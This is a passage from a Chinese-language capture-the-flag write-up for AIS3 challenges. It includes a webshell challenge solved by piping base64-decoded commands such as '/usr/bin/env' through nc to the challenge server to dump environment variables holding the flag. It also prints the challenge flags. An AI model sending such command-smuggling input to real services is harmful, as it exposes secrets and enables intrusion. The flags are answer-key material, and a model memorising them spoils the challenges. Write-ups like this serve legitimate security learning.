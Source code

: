 ![image](https://user-images.githubusercontent.com/57281249/168675477-8291831f-8eef-4fe8-9d54-c206a2e0d4e4.png)

#### Flag
`AIS3{pr0gramm1ng_in_a_json_proce55in9_too1}`

### Seadog's Webshell
#### 題目
![image](https://user-images.githubusercontent.com/57281249/168675551-456344b7-b571-4a41-8150-e690d4daad11.png)

![image](https://user-images.githubusercontent.com/57281249/168675613-e4cab9ef-526e-44ee-be20-c55ed900b7ef.png)

#### Important Source Code
``` bash
#!/bin/sh

exec 2>/dev/null
base64 | timeout 10s sh

```

#### 解題
送進去的 code 必須同時符合 base64 的格式將其解碼送進去，因此 script 就用 `echo "//bin/ls" | base64 -d` 然後再 pipe 進 nc，並且用絕對路徑，這樣就可以用 `/` 填空位。
然而卻發現怎麼試都沒反應，因此用自己機器試了一下，發現 nc 沒送 eof，所以加了個 `-q 1`。
``` bash
echo "//bin/ls" | base64 -d | nc -q 1 chals1.ais3.org 12369
```

![image](https://user-images.githubusercontent.com/57281249/168675770-9f22fdf6-eae4-4747-8afe-e90b71ccc9f6.png)

成功

最後因為 flag 在 environment (根據 docker-ccompose.yml) 所以執行

``` bash
echo "/usr/bin/env" | base64 -d | nc -q 1 chals1.ais3.org 12369
```

![image](https://user-images.githubusercontent.com/57281249/168675828-91d4687e-ce81-4802-911d-45dc6a5c455c.png)

#### Flag
`AIS3{ZXNjYXBpbmdfYmFzZTY0X3dpdGhfZW9m}`

## Reverse
### Calculator
#### 題目
![image](https://user-images.githubusercontent.com/57281249/168676022-6f52e70e-e428-4ed4-af96-f86f10d78dc5.png)

#### 解題
dnspy 看 Extension.AIS3 到 AIS3333 這幾個 dll 然後按照 Operate method 內的規則將 Flag 一個字一個自填完。

